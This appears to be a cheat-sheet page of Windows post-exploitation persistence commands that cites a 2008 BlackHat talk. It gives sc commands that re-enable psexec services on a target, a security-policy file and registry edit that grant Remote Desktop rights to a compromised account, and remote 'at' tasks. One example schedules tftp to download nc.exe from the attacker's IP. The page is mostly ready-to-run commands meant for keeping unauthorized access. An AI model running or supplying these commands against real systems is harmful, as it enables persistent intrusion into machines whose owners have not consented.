 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.


### Enable `psexec`
The [`psexec` tool](http://technet.microsoft.com/en-us/sysinternals/bb897553.aspx) executes processes on other systems over a network. Most systems now disable the "clipbook" which `psexec` required. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 50)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can re-enable the sub-systems needed to use `psexec` using the `sc` commands below.
    
<pre>
c:\> net use \\[TargetIP]\ipc$ username /user:password
c:\> sc \\[TargetIP] config netdde start= auto
c:\> sc \\[TargetIP] config netddedsdm start= auto
c:\> sc \\[TargetIP] config clipsrv start= auto
c:\> sc \\[TargetIP] start netdde
c:\> sc \\[TargetIP] start netddedsdm
c:\> sc \\[TargetIP] start clipsrv
</pre>

### Enable Remote Desktop
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.

    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below. 

    <pre>
     Windows Registry Editor Version 5.00
     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
     "fDenyTSConnections"=dword:00000000
     "TSEnabled"=dword:00000001
     "TSUserEnabled"=dword:00000000
    </pre>

 1. On the remote system, execute the following commands:
      
    <pre>c:\> sc config termservice start= auto sc config termservice start= auto
c:\> regedit /s enable_ts.reg
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb
c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini
c:\> gpupdate /Force
c:\> net start "terminal services"
</pre>

### Scheduler
The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.

<pre>
c:\> net use \\[TargetIP]\ipc$ password /user:username
c:\> at \\[TargetIP] 12:00 pm command
</pre>

An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`
